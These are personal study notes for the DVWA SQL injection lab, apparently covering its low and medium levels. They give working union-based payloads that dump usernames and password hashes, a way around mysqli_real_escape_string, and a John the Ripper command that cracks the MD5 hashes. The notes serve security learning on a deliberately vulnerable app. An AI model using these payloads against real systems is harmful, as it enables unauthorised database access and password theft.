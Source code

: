 # low
- we see a form that takes user input in the form of a "User ID"
- the form takes our input and returns the user's ID, first name, and last name.
- we test for SQLI
-  a single quote character (')
- we see an error
- You'll see something like this when user input isn't correctly sanitized before being used in a server-side SQL query
- we see from the error that the db is mariadb
- Reviewing the MariaDB documentation tells us that the special character % functions as a wildcard
- We'll need to find away to break out of the query the code wants us to make
- ```
  %' or '0'='0
  ```
- start seeing where DVWA keeps the passwords
- ```
  %' or '0'='0' union select * from password #
  ```
- No luck on that specific column, but it does confirm the database name of "dvwa"
- reviewing the MariaDB documentation tells us more useful info. It appears that we can pull all the column names from a MariaDB built-in table called "information_schema.COLUMNS"
- ```
  %' or '0'='0' union select COLUMN_NAME from information_schema.COLUMNS #
  ```
- says the amount of columns we're trying to pull don't equal the amount of columns we're displaying
- we make modifications
- ```
  %' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
  ```
- we see alot of output after alot of modification we got the final payload
- ```
  %' or '0'='0' union select user, password from dvwa.users #
  ```
- this payload also works from portswigger
- ```
  ' UNION SELECT user, password FROM users#
  ```
- now we got the password hashes
- we crack them using john
- ```
  john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5

  ```
# Medium
- clicking the "View Source" button on the bottom right of the challenge.
- We see the addition of the PHP function mysqli_real_escape_string(). Essentially, this method cleans ("sanitizes") the input, removing any characters an attacker traditionally uses to trigger a SQL injection (SQLi) attack. From this link, we know the characters the function removes include:
```
NUL (ASCII 0), \n, \r, \, ', ", Control-Z
```
- the only character that's in our exploit that will get removed by mysqli_real_escape_string() is the single-quote character '
- we only inserted the single quote to break out of our last server-side query
- which had quotes already built into it. But this challenge removed them, meaning we don't need quotes at all! If we remove them
- we don't need to worry about any processing by mysqli_real_escape_string(). So let's modify our exploit as follows:
- ```
  % or 0=0 union select user, password from dvwa.users #
  ```
- error from %
- we try to put valid id
- ```
  1 or 0=0 union select user, password from dvwa.users #
  ```
  - and yes we got the hashes


